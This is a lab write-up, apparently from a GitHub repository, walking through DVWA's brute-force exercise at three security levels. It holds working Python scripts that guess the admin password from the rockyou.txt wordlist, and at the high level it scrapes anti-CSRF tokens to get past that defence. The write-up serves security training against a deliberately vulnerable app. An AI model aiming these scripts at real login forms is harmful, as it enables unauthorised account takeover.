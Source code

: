 # DVWA - Brute-Force

## Description

**Vulnerability:** Brute-force    
**Impact:** Brute-force and get the admin account credentials.

---

## LOW Security Level
This is the simple code I created to brute-force the admin account using `rockyou.txt` password lists.

*Change `PHPSESSID` to your own one.*

```python
import requests

baseUrl = "http://localhost/DVWA/vulnerabilities/brute/?Login=Login&username=admin"

cookies = {
    "PHPSESSID": "91fdcd96e5376633ef607edd0a1b8093",
    "security": "low"
}

try:    
    with open('/usr/share/wordlists/rockyou.txt') as file:
        for line in file:
            password = line.rstrip()
            url = baseUrl + f"&password={password}"
            
            try:
                print(f"Attempting: password={password}")
                res = requests.get(url, cookies=cookies)
                
                if "Username and/or password incorrect." not in res.text:
                    print()
                    print("=> Password found: ", password)
                    exit()
            except requests.exceptions.RequestException as e:
                print("Request error:", e)
                continue
except FileNotFoundError as e:
    print("File not found:", e)
```

## MEDIUM Security Level
The only difference between LOW and MEDIUM level is in the `Login failed` if logic:
```php
// Login failed
sleep( 2 );
echo "<pre><br />Username and/or password incorrect.</pre>";
```

If we submit wrong credentials instead of immediately pop up an error message it will wait for 2 seconds, so we can use the same code as LOW Security level to brute-force the admin account.

## HIGH Security Level
This level add a `CSRF Token` in order to prevent attackers from freely brute-force the account if you inspect the form you can see a new input

```html
<input type="hidden" name="user_token" value="CHANGE_EVERY_TIME_RELOAD_THE_PAGE">
```

The server will check this created `user_token` before doing the authentication logic and this token is required. The server code:

```php
// Check Anti-CSRF token
checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' );
```

Also, this `sleep` function will make the response become slower when we submit a wrong credentials
```php
// Login failed
sleep( rand( 0, 3 ) );
echo "<pre><br />Username and/or password incorrect.</pre>";
```

The workflow is this:
1. First make a GET request to page and take the created `user_token`.
2. Use that `user_token` to make a brute-force request trying the password.
3. If failed continue make a GET request to get new `user_token` and brute-force again.

Exploitation code:
```python
import requests
import re

baseUrl = "http://localhost/DVWA/vulnerabilities/brute/"

cookies = {
    "PHPSESSID": "91fdcd96e5376633ef607edd0a1b8093",
    "security": "high"
}

pattern = r"name='user_token' value='([a-fA-F0-9]+)'"

try:    
    with open('/usr/share/wordlists/rockyou.txt') as file:
        for line in file:
            password = line.rstrip()
            url = baseUrl + f"?Login=Login&username=admin&password={password}"
            
            try:
                # Take CSRF Token
                res = requests.get(baseUrl, cookies=cookies)

                match = re.search(pattern, res.text)
                if match:
                    token = match.group(1)
                    
                    url += f"&user_token={token}"
                else:
                    print("Failed to taken token")
                    continue

                # Brute-force password
                print(f"Attempting: password={password}")
                res = requests.get(url, cookies=cookies)

                if "Username and/or password incorrect." not in res.text:
                    print()
                    print("=> Password found: ", password)
                    exit()
            except requests.exceptions.RequestException as e:
                print("Request error:", e)
                continue
except FileNotFoundError as e:
    print("File not found:", e)
```

## Resources
- https://owasp.org/www-community/attacks/Brute_force_attack
- https://www.symantec.com/connect/articles/password-crackers-ensuring-security-your-password
- https://www.golinuxcloud.com/brute-force-attack-web-forms
